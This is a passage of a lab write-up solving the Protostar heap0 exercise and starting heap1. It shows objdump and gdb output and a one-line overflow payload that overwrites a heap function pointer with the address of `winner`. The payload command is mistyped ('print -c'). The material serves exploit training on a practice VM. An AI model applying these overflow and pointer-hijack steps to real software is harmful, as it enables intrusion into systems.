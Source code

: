 We start poking around the binary to find out where `winner` is located.

~~~
$ # Finding the address (left-most column) of the winner-function by running objdump -t
$ objdump -t /opt/protostar/bin/heap0 | grep -e " winner"
08048464 g	F	.text	00000014		winner
~~~

Now that we know what to overwrite the function-pointer with, we craft
our input with the help of python to gracefully complete this
challenge.

Note that we gave the program 72 bytes of garbage, because the two
variables are not located right next to each-other on the heap. I'm
guessing that this has to do with some padding or alignment
implemented by the standard library.

~~~
$ /opt/protostar/bin/heap0 `print -c "print 'A'*72+'\x64\x84\x04\x08'"`
data is located at 0x804a008, fp is at 0x804a050
level passed
~~~

* * * 

## [heap1](https://exploit-exercises.com/protostar/heap1)

>### About
>
>This level takes a look at code flow hijacking in data overwrite cases.

I have no idea how to go about exploiting this.

Let's channel our inner Ivan Drago and break stuff & hopefully we might learn something along the way.

Feeding the program a bunch of garbage makes the program crash
in `__GI_strcpy`

~~~
(gdb) start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
(gdb) c
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x41414141 <Address 0x41414141 out of bounds>, 
    src=0xbffffe7c 'B' <repeats 56 times>) at strcpy.c:40
(gdb) x/i $eip
0xb7f09df4 <*__GI_strcpy+20>:	mov    BYTE PTR [esi+edx*1+0x1],cl
(gdb) i r esi edx
esi            0x41414140	1094795584
edx            0x0	0
~~~

I noticed that up to around 20 `A`s are no problem for the program to
handle. Around 20+ is where things get weird, the destination-address
provided to `strcpy` is being overwritten somehow. 
